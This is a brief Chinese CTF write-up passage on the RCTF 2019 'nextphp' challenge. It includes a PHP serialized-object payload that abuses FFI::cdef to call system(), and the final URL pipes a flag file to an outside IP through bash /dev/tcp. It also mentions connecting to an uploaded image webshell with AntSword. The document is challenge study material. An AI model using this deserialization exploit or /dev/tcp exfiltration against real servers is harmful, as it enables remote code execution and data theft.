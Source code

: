重置cookie,刷新会发现刚才上传的图片马变成了php后缀，然后蚁剑连接

## rctf nextphp

https://blog.csdn.net/qq_41809896/article/details/90384668

eval可执行，?a=echo phpinfo();

查看配置，scandir()可利用

?a=var_dump(scandir('/var/www/html'));

?a=echo get_file_contents('preload.php');

![image](http://note.youdao.com/yws/res/1711/9355C4630D2C47788AF0EA4BDBDBDB09)

![image](http://note.youdao.com/yws/res/1713/AE8CEDF7BD454FCA8CC1880D223C7736)

构造序列化对象

```
<?php

class A implements Serializable
{
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(const char *command);'
    ];

    public function serialize(): string
    {
        return serialize($this->data);
    }

    public function unserialize($payload)
    {
        $this->data = unserialize($payload);
    }
}
    $obj = new A;
    $ser = serialize($obj);
    echo $ser."\n";

```

最终payload为http://nextphp.2019.rctf.rois.io/?a=unserialize('C:1:"A":95:{a:3:{s:3:"ret";N;s:4:"func";s:9:"FFI::cdef";s:3:"arg";s:32:"int system(const char *command);";}}}')->__get('ret')->system('bash -c "cat /flag > /dev/tcp/167.99.105.52/8080"');

不明白为什么要先序列化后再反序列化，再将ret指向bash命令，本地开启的端口也没有监听到

## pwnhub_2018
